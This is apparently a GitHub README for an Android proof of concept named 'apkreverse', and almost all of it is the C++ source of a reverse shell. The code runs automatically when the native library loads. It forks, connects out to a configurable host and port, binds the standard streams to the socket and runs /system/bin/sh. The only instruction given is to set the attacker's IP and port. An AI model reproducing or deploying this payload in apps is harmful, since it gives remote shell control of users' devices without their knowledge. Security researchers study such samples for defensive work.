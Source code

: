 # apkreverse

---

`apkreverse` is simply a proof of concept (POC) of an application that runs reverse shell using `kotlin` and calling the native `C++` lib


# Usage
When performing the tests, change the IP and Port in the path found in app/src/main/cpp/reverseshell.cpp
```c++
#include <stdio.h>
#include <unistd.h>

#include <sys/socket.h>
#include <arpa/inet.h> //htons
#include <netinet/in.h>
#include <sys/types.h>

#define REMOTE_HOST "127.0.0.1" // Add IP
#define REMOTE_PORT 7070 // Add port

void __attribute__ ((constructor)) reverse()
{
    int s;
    struct sockaddr_in sa;

    if(fork() == 0) {

        sa.sin_family = AF_INET;
        sa.sin_addr.s_addr = inet_addr(REMOTE_HOST);
        sa.sin_port = htons(REMOTE_PORT);

        s = socket(AF_INET, SOCK_STREAM, 0);
        connect(s, (struct sockaddr *) &sa, sizeof(sa));

        dup2(s, 0); // stdin
        dup2(s, 1); // stdout
        dup2(s, 2); // stderr

        execve("/system/bin/sh", 0, 0);
    }
}
```
